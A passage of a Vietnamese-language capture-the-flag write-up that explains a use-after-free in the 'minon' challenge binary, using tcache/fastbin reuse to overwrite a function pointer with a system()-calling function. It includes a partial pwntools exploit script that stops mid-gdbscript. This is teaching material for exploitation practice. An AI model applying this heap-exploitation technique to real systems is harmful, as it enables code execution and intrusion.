 ```c
}

int main(int argc, char const *argv[]) {
    int leave = 0;
    init();
    while(!leave) {
        switch (menu()) {
        case 1:
            add_minon();
            break;
        case 2:
            remove_minon();
            break;
        case 3:
            report_name();
            break;
        default:
            leave = 1;
        }
        printf("\n");
    }
    return 0;
}

```
#### Ý tưởng 
- Ta có lỗi UAF do chương trình sau khi free, không hề xoá con trỏ
![image](https://github.com/wan-hyhty/trainning/assets/111769169/40d02578-2fbd-45fc-8ed9-71640c735165)

- Mỗi khi tạo 1 minon mới, tạo 2 chunk, chunk đầu tiên size mặc định 0x20 để lưu hàm speak, và chunk thứ 2 được sử dụng để lưu tên
- Khi report_name, chương trình sẽ lấy chunk đầu tiên đang lưu hàm speak vào rdx, và call rdx
![image](https://github.com/wan-hyhty/trainning/assets/111769169/7b29f5a4-24bc-4b20-8c40-6abc44f45820)

- Vậy ta cần phải ow chunk đầu tiên thành hàm `Nawi()` chứa `system()`
- Để có thể ow chunk chứa speak, ta sẽ lợi dụng cơ chế LIFO của fastbin, tcache

#### Khai thác
- Đầu tiên ta sẽ tạo 2 minon 0 và 1 như sau và free theo thứ tự sau:

![image](https://github.com/wan-hyhty/trainning/assets/111769169/7f9aaf25-dff0-44b9-8357-839af29db12e)

- Khi này trong fastbin thứ tự các chunk như số màu đỏ
- Khi ta tạo thêm 1 chunk có size 0x20, chương trình sẽ lấy chunk 4 (để lưu speak) và chunk 2 (để lưu tên)
- Ta thấy rằng do chương trình không xoá con trỏ ra khỏi danh sách minon, ta đã có thể UAF minon 0, ow speak thành `Nawi()`
![image](https://github.com/wan-hyhty/trainning/assets/111769169/766694ab-b35c-48f1-a741-3d389ea89293)

```python
from pwn import *

# p = remote('pwn.battlectf.online', 1006)

p = process("./minon")

elf = ELF('./minon')
get_shell = elf.symbols['Nawi']

gdb.attach(p, gdbscript = '''
           b*0x000000000040131f
           b*0x0000000000401616
           b*0x00000000004016f1
```